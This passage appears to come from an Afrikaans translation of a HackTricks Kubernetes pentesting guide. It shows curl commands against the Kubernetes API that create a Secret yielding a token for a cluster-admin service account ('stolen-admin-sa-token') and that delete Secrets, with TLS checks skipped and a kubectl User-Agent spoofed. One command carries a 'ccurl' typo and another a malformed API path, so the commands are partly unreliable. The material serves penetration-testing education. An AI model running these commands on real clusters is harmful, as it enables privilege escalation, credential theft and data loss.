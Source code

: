 ```bash
-H $'Accept-Encoding: gzip, deflate, br' \
--data-binary $'{\"apiVersion\":\"v1\",\"kind\":\"Secret\",\"metadata\":{\"annotations\":{\"kubernetes.io/service-account.name\":\"cluster-admin-sa\"},\"name\":\"stolen-admin-sa-token\",\"namespace\":\"default\"},\"type\":\"kubernetes.io/service-account-token\"}\x0a' \
"https://$CONTROL_PLANE_HOST/api/v1/$NAMESPACE/default/secrets?fieldManager=kubectl-client-side-apply&fieldValidation=Strict"
```
### Verwyder 'n Geheim
```bash
CONTROL_PLANE_HOST=""
TOKEN=""
NAMESPACE="default"
SECRET_NAME=""

ccurl --path-as-is -i -s -k -X $'DELETE' \
-H "Host: $CONTROL_PLANE_HOST" \
-H "Authorization: Bearer $TOKEN" \
-H $'Content-Type: application/json' \
-H $'Accept: application/json' \
-H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
-H $'Content-Length: 35' \
-H $'Accept-Encoding: gzip, deflate, br' \
--data-binary $'{\"propagationPolicy\":\"Background\"}\x0a' \
"https://$CONTROL_PLANE_HOST/api/v1/namespaces/$NAMESPACE/secrets/$SECRET_NAME"
```
## Verwysings

{{#ref}}
https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}

